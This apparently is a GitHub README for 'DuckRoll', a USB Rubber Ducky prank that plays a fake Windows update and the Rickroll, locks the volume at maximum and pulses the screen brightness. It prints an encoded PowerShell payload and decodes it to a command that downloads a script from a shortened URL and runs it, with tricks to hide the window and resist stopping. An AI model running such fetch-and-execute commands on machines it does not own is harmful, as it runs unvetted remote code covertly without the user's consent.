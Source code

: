 # DuckRoll

A script that opens [fakeUpdate](http://fakeupdate.net/win10u/) in full screen and plays the Rickroll song, as well as some other small pranks: 

 - Constantly setting the volume to 100% to prevent the user from turning it down
 - Pulsing the brightness from 100% to 0% and viceversa

The script also does some things to be as undetectable, yet effective as possible: 

 - It hides the Powershell window right after opening it so user doesn't suspect anything 

 - It uses an external Powershell script to run the prank, so the ducky can be removed as quickly as possible

 - Everything that the ducky itself types on the host device is simple ascii letters and numbers, so different keyboard layouts should not break things

 - It runs in the background so the only way to stop it is to kill Powershell through Task Manager, which most people won't know/think of doing

 - It always downloads the latest script from the internet, so modifications to the script do not require reflashing the ducky itself

### Payload explanation

the payload itself: `powershell /e aQBlAHgAKABpAHcAcgAgAC0AdQBzAGUAYgAgAGIAaQB0AC4AZABvAC8AZQBTAEwAZwBmACkA`

1. base64 encoding: that command is equivalent to `powershell iex(iwr -useb bit.do/eSLgf)`; however, the unencoded version contains many non-alphanumeric characters that would break if the host's keyboard layout is different from the configured layout on the ducky.
    - the encoded payload contains *one* special character (`/`), but on other, non-US keyboard layouts that key maps to `-`, which is also a valid powershell command, so this was chosen purposefully :)

2. the decoded command itself is then equivalent to `powershell Invoke-Expression(Invoke-Webrequest -usebasicparsing bit.do/eSLgf)`... and at this point you may have already figured out what that's doing
